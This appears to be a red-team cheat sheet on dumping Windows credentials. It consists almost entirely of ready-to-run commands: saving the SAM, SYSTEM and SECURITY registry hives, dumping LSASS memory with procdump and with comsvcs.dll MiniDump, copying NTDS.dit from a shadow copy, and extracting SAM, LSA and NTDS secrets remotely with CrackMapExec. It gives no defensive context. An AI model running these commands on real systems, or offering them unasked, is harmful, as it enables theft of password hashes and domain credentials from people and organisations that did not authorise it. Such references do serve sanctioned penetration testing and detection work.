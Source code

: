 # Dumping Credentials

## Local

### Dumping registry hives

```batch title="cmd.exe"
reg save HKLM\sam sam
reg save HKLM\system system
reg save HKLM\security security
```

### Dumping LSASS memory

```batch title="cmd.exe"
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

```batch title="cmd.exe (Cloned Process)"
procdump.exe -accepteula -r -ma lsass.exe lsass.dmp
```

```batch title="cmd.exe (comsvcs.dll)"
.\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 624 C:\temp\lsass.dmp full
```

### Copying NTDS.dit

```powershell title="Create shadow copy and copy NTDS.dit"
vssadmin CREATE SHADOW /For=C:
cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```

## Remote

### CrackMapExec

```bash
crackmapexec smb <ip> -u <user> -p <password> --sam
crackmapexec smb <ip> -u <user> -p <password> --lsa
crackmapexec smb <ip> -u <user> -p <password> --ntds
```